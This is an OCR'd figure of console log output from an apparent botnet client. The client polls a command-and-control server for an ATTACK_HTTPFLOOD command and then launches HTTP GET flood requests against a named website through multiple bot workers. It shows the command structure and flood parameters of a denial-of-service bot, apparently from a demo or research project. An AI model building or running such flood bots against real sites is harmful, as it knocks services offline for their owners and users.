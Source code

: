 \begin{verbatim}
                 Scheduling HTTP GET Flooding attack against http://www.micheleporretta.com...
08:37:04.380 [main] INFO attackHttpFlooding - 
                 Attack scheduled
08:37:04.380 [main] INFO attackHttpFlooding - 
                 Scheduling HTTP GET Flooding attack against http://www.micheleporretta.com...
08:37:04.386 [main] INFO attackHttpFlooding - 
                 Attack scheduled
08:37:04.386 [main] INFO run - 
                 Waiting for polling from C&C at http://localhost:3000/command
08:37:04.393 [BotPool_Worker-2] INFO  execute - 
                 Launching HTTP FLOOD attack: 
                 GET http://www.micheleporretta.com (1/1) behind proxy none
08:37:04.396 [BotPool_Worker-1] INFO  execute - 
                 Launching HTTP FLOOD attack: 
                 GET http://www.micheleporretta.com (1/3) behind proxy none
08:37:04.686 [BotPool_Worker-3] INFO  execute - 
                 Launching HTTP FLOOD attack: 
                 GET http://www.micheleporretta.com (2/3) behind proxy none
08:37:05.104 [BotPool_Worker-4] INFO  execute - 
                 Launching HTTP FLOOD attack: 
                 GET http://www.micheleporretta.com (3/3) behind proxy none
08:37:08.392 [main] INFO run - 
                 Received command ATTACK_HTTPFLOOD with params {
                 attacks=[HttpFloodAttack(super=AbstractFloodAttack(executions=3,
                 period=10-120:MILLISECONDS), method=GET, header={User-Agent=myBot},
                 params={}), HttpFloodAttack(super=AbstractFloodAttack(executions=1,
                 period=null), method=GET, header={}, params={})], report=false}
                 from C&C at http://localhost:3000/command
08:37:08.393 [main] INFO executeCommand - 
                 Executing command ATTACK_HTTPFLOOD with params {
                 attacks=[HttpFloodAttack(super=AbstractFloodAttack(executions=3,
                 period=10-120:MILLISECONDS), method=GET, header={User-Agent=myBot},
                 params={}), HttpFloodAttack(super=AbstractFloodAttack(executions=1,
                 period=null), method=GET, header={}, params={})], report=false}
08:37:08.393 [main] INFO attackHttpFlooding - 
                 Scheduling HTTP GET Flooding attack against http://www.micheleporretta.com...
08:37:08.394 [main] INFO attackHttpFlooding - 
                 Attack scheduled
08:37:08.394 [main] INFO attackHttpFlooding - 
                 Scheduling HTTP GET Flooding attack against http://www.micheleporretta.com...
08:37:08.395 [main] INFO attackHttpFlooding - 
                 Attack scheduled
08:37:08.395 [BotPool_Worker-5] INFO  execute - 

\end{verbatim}
